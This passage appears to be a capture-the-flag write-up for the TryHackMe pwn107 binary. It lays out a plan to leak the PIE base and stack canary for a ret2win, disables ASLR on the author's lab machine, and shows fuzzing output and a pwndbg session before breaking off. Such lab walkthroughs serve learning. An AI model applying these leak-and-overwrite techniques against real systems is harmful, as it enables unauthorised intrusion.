 So here's the methodology i'll follow to pwn this binary

```
1. Get piebase address
2. Leak stack canary address
3. Perform Ret2Win
```

Because PIE is enabled the addresses will be randomize

So i'll need to leak it to get the offset of the addresses

To leak piebase address i'll fuzz for values on the stack which has a constant values

But before i do that i'll need to disable `ASLR ( Address Space Layout Randomization )` because it works with `PIE` to randomize addresses

```
└─$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
[sudo] password for mark: 
0
```

Here's the solve script [FUZZ](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/thm/pwn101/fuzz_pwn107.py)

Eventually i got an address which doesn't change when the program runs each time and its the 17th element of the stack

```
└─$ python3 fuzz.py  
17: b'0x555555400992\n'
                                                                                                        
┌──(mark㉿haxor)-[~/…/B2B/THM/Pwn101/pwn107]
└─$ python3 fuzz.py
17: b'0x555555400992\n'
```

Now i'll need to calculate the piebase address and i'll use gdb-pwndgb for it

```
└─$ gdb-pwndbg -q pwn107.pwn107
Reading symbols from pwn107.pwn107...
(No debugging symbols found in pwn107.pwn107)
pwndbg: loaded 138 pwndbg commands and 43 shell commands. Type pwndbg [--shell | --all] [filter] for a list.
pwndbg: created $rebase, $ida GDB functions (can be used with print/break)
------- tip of the day (disable with set show-tips off) -------
The set show-flags on setting will display CPU flags register in the regs context panel
pwndbg> break main
Breakpoint 1 at 0x996
pwndbg> r
Starting program: /home/mark/Desktop/B2B/THM/Pwn101/pwn107/pwn107.pwn107 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x0000555555400996 in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────
*RAX  0x555555400992 (main) ◂— push rbp
*RBX  0x7fffffffdfb8 —▸ 0x7fffffffe306 ◂— '/home/mark/Desktop/B2B/THM/Pwn101/pwn107/pwn107.pwn107'
*RCX  0x7ffff7f9b820 (__exit_funcs) —▸ 0x7ffff7f9d2e0 (initial) ◂— 0x0
*RDX  0x7fffffffdfc8 —▸ 0x7fffffffe33d ◂— 0x5245545f5353454c ('LESS_TER')
*RDI  0x1
*RSI  0x7fffffffdfb8 —▸ 0x7fffffffe306 ◂— '/home/mark/Desktop/B2B/THM/Pwn101/pwn107/pwn107.pwn107'
*R8   0x555555400b00 (__libc_csu_fini) ◂— ret 
*R9   0x7ffff7fcf6a0 (_dl_fini) ◂— push rbp
*R10  0x7ffff7fcb878 ◂— 0xc00120000000e
*R11  0x7ffff7fe18c0 (_dl_audit_preinit) ◂— mov eax, dword ptr [rip + 0x1b552]
```